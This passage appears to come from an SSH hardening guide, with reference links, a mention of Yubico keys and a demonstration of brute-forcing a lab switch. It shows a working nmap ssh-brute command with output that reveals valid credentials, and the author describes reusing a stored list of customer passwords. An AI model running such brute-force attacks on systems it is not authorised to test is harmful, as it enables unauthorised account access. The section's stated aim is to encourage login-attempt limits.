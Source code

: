 ### References - OpenSSH Server

- [How to Set Up and Use SSH in Linux](https://www.maketecheasier.com/setup-enable-ssh-ubuntu/)
- [How to open ssh 22/TCP port using ufw on Ubuntu](https://www.cyberciti.biz/faq/ufw-allow-incoming-ssh-connections-from-a-specific-ip-address-subnet-on-ubuntu-debian/)
- [How to delete a UFW firewall rule on Ubuntu](https://www.cyberciti.biz/faq/how-to-delete-a-ufw-firewall-rule-on-ubuntu-debian-linux/)

----------------------------------------------------------------

## Yubico Authenticator

Yubico is one of the companies that makes Physical Security keys. These allow you to copy your private key to the Yubico and have access no matter what laptop you are on with just one key. It's beyond the scope of this guide but here are links to Yubico.

- [Highest assurance authentication that’s fast and easy](https://www.yubico.com/products/yubikey-5-overview/)
- [Securing SSH Authentication with FIDO2](https://developers.yubico.com/SSH/Securing_SSH_with_FIDO2.html)

----------------------------------------------------------------

## Brute Forcing SSH

I mentioned in the creating ssh keys section that usernames and passwords are easier to brute-force than keys are. You can use nmap to brute force ssh. In this example I created a file named users.lst and a file named pass.lst with valid user and passwords for the switch.

Obviously an attacker would be using a breach list or a social engineered list of names and passwords. But for demo purposes I didn't want to spend hours running nmap. I have a list of all the passwords that customers have given me over the years that I use in real situations.

I have had to use this method more than once at small school districts and other customers that don't have ISE or Clearpass and have used local creds. I also had to use this once at a Community College that had the network team arrested!

This should make it clear that you should set a limit on the number of login attempts!

```c# linenums="1" hl_lines="1"
nmap -p 22 --script ssh-brute --script-args userdb=./users.lst,passdb=./pass.lst 192.168.10.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-07-24 23:36 PDT
NSE: [ssh-brute] Trying username/password pair: mhubbard:R00tIsTheG0al
NSE: [ssh-brute] Trying username/password pair: thubbard:Sup3rS3cr3t
Nmap scan report for 3850.pu.pri (192.168.10.253)
Host is up (0.0046s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     mhubbard:R00tIsTheG0al - Valid credentials
|     thubbard:Sup3rS3cr3t - Valid credentials
|_  Statistics: Performed 4 guesses in 9 seconds, average tps: 0.4

Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```
